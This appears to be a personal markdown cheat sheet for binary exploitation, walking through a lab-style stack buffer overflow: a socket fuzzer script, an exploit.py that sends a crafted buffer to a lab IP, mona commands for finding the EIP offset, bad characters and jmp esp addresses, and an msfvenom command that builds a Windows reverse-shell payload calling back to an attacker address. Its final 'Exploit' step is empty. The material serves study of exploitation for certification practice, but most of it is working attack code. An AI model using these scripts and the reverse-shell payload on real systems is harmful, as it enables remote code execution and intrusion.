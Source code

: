 # Binary Exploitation

## Linux binaries
### 1. Static info dump of binary / Check protections
- Extract binary info with `rz-bin -I <binary>` or `rabin2 -I <binary>`
- Check binary security settings with `checksec` (standalone) or `pwn checksec`
- List function names of unstripped binaries with `rz-bin -i <binary>`
- Get strings with `strings` and `rz-bin -z <binary>`

### 64-bit Buffer Overflow
- [Example](https://security.stackexchange.com/a/206439)

## Tips and Tricks
### x86_64 Assembly / Shellcrafting
```bash
# Get shell code from objdump
objdump -Mintel -D shell_asm | grep -ioP "[a-z0-9]{6}:\W\K(([a-z0-9][a-z0-9].)*)" | paste -d '' -s | sed 's/\s$//g' | sed 's/^/\\\x/' | sed 's/ /\\\x/g'

# assemble some 64 bit assembly
nasm -f elf64 <file>

# link some assembly
ld <object_file> -o <output_file>

# pwntools shellcraft setreuid to 1002
pwn shellcraft -f d amd64.linux.setreuid 1002

# readelf: display informationed in the file's segment headers such as GNU_STACK
readelf -l <binary>

# use echo -e to output addresses in hex
echo -e "\x41\x41\x41\41\xc9\x11\x04\x00"
```

## OSCP Buffer Overflow
Debugger: Immunity Debugger + Mona python scripts
Configure Mona with `!mona config -set workingfolder c:\mona\%p`. This sets the directory where we can find mona output files.
### 1. Fuzzing
Use python with `sockets` library to send and receive data to service. Send base buffer and increntally send larger input sets until the service crashes.
```python
#!/usr/bin/env python3
# fuzzer.py

import socket, time, sys

ip = "10.10.190.41"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


### 2. Crash Replication and Controlling EIP
Use another script (exploit.py) for sending payloads.
```python
# exploit.py
import socket

ip = "10.10.190.41"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Prepare a cyclic pattern to send as payload to identify the offset for the __EIP__. The length will be determined by the length necessary to crash the sevice in the previous step. Generate the pattern with metasploit. Set the length 400 bytes larger than the strings used to crash the service. (I think the +400 bytes is arbitrary)
```bash
# cyclic pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <num>
# or non-cyclic pattern
msf-pattern_create -l <num>
```
Identify EIP offset
```
!mona findmsp  -distance <xxx>
```
If mona doesn't pick up anything try a larger pattern. Try adjusting down the offset. Adjust the exploit.py `offset` to match the EIP offset from the previous step. Populate `retn` with "BBBB" and re-run the exploit. EIP should be filled with "B"s (\x42)
### 3. Find Bad Characters 
Generate a byte array with mona excluding bad characters. Exclude null byte by default.
```bash
!mona bytearray -b "\x00"
# example with more bad chars
!mona bytearray -b "\x00\x07\x08\x2e\x2f\xa0\xa1"
```
Python script to generate bytearray.
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Run exploit.py with the bytearray payload. Crosscheck the hexdump with the payload to find any bad chars. This can be done manually or with mona. If there are no bad chars, the output status should be "Unmodified".
```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
# <address> refers to the ESP when the service stopped/crashed
```
Remove any bad chars and repeat until the entire payload is sent successfully.

### 4. Find a Jump Point
Use mona to find all the `jmp esp` instructions with addresses that don't contain any of the bad chars.
```bash
!mona jmp -r esp -cpb "\x00"
# example with more bad chars
!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\a1"
```

Replace `retn` in exploit.py with one of the addresses found.
Don't forget to put it in "backwards" since our target has an Intel CPU which is little endian.

### 5. Generate Payload
Generate shell code to be used as payload.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.86.88 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
```
This creates `c` shell code.
#### NOTE: don't forget to add a nop sled. The payload will most likely need some space in memory to unpack itself.

### 6. Exploit


